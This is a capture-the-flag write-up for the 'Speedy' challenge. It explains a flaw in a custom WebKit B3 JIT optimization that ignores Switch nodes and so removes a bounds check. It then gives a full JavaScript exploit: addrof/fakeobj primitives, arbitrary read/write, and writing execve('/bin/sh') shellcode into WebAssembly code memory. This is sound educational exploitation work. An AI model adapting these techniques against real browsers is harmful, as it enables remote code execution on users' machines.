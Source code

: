# Speedy

## Vulnerability

Going through the readme we can see that the optimization is implemented for
Basic Blocks with 2 branches. Lets see how this is checked in the patch - 

In b3/ChallOpt.cpp , in the `run` function -

```cpp
for (BasicBlock* block : m_proc.blocksInPreOrder()) {

    Value* branch = block->last();
    Effects effects = branch->effects();

    /* Sanity Check */
    if (!effects.terminal)
        continue;

    /* We can only optimize blocks with branches. Thus ignore stuff like Jump  */
    if (branch->numChildren() < 1 || block->numSuccessors() < 2)
        continue;
```

So the node should be a `terminal` node and have at least 2 successors. But what
if it has more ? Lets check out xrefs for nodes marked `teminal`... 

In B3Value.cpp we see 

```cpp
    case Jump:
    case Branch:
    case Switch:
    case Return:
    case Oops:
    case EntrySwitch:
        result.terminal = true;
        break;

```

So all these nodes will pass the first check. Refer
[https://webkit.org/docs/b3/intermediate-representation.html](https://webkit.org/docs/b3/intermediate-representation.html)
for b3 IR. We see that switch can branch to multiple branches. But the
optimization never takes this into consideration. Thus if there is a `check`
node in 2 branches but none in the third branch still the check in the successor
block will be removed ! 

One trick now was to "hoist" (hmm, not the exact word here but....) the `Load`
nodes preceeding the check into a pre-decessor block `check` this can be done by
common subexpression elimination by just reading a value from an array before
the switch. Here is the exploit - 

## Exploit

```js
// utils
var conversion_buffer = new ArrayBuffer(8)
var f64 = new Float64Array(conversion_buffer)
var i32 = new Uint32Array(conversion_buffer)
var BASE32 = 0x100000000
function f2i(f) {
    f64[0] = f
    return i32[0] + BASE32 * i32[1]
}
function i2f(i) {
    i32[0] = i % BASE32
    i32[1] = i / BASE32
    return f64[0]
}
function hex(x) {
    if (x < 0) return `-${hex(-x)}`
    return `0x${x.toString(16)}`
}

// exploit
let trig_arr = new Array(0x10);
let oob_arr = new Array(0x10);
let obj_arr = new Array(0x10);
let rw = new Array(0x200);
trig_arr.fill(1);
oob_arr.fill(1.1);
obj_arr.fill({});
rw.fill(1.1);

function jit(a,b){
    let h=1000;
    let d=a+1;
    let hg=trig_arr[b]; // Loads are not optimized by ChallOpt. So we need this so B3CSE eliminates further loads.
    switch(a){
    case 0:
        trig_arr[d]=h;
        break;
    case 1:
        trig_arr[d]=h;
        break
    }
    // Overwrite the size field of oob_arr
    trig_arr[d]=h;
}

function fakeobj(addr){
    oob_arr[20]=addr;
    return obj_arr[0];
}
function addrof(obj){
    obj_arr[0]=obj;
    return oob_arr[20];
}

function trigger(){
    for(let i=0;i<0x10000; i++){
        jit(0,6);
        jit(1,3);
    }
    jit(18,3);
}

function main(){
    trigger();

    let sid = Reflect.strid(oob_arr);

    i32[0] = sid;
    i32[1] = 0x01082307 - 0x20000
    let fakecell = f64[0];
    let container ={
        jsCell: fakecell,
        butterfly: fakeobj(i2f(f2i(addrof(rw))+8))
    }
    let contAddr = addrof(container);
    let fakeObjAddr = i2f(f2i(contAddr)+16);
    let fake = fakeobj(fakeObjAddr);

    function read(addr){                 // arbitrary read
        fake[0]=addr;
        return rw[0];
    }
    function write(addr,val){            // arbitrary write
        fake[0]=addr;
        rw[0]=val;
    }

    var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    var wasm_mod = new WebAssembly.Module(wasm_code);
    var wasm_instance = new WebAssembly.Instance(wasm_mod);
    var f = wasm_instance.exports.main;
    var addr_f = addrof(f);
    var addr_shellcode = f2i(read(i2f(f2i(addr_f) + 0x28)));
    // execve(/bin/sh)
    let shellcode = [
            2.825563119134789e-71, 3.2060568105999132e-80,
  -2.5309726874116607e+35, 7.034840446283643e-309
    ]
    for(var i = 0; i < shellcode.length; i++) {
        write(i2f(addr_shellcode + i * 8), shellcode[i]);
    }
    f()
}

main()


```
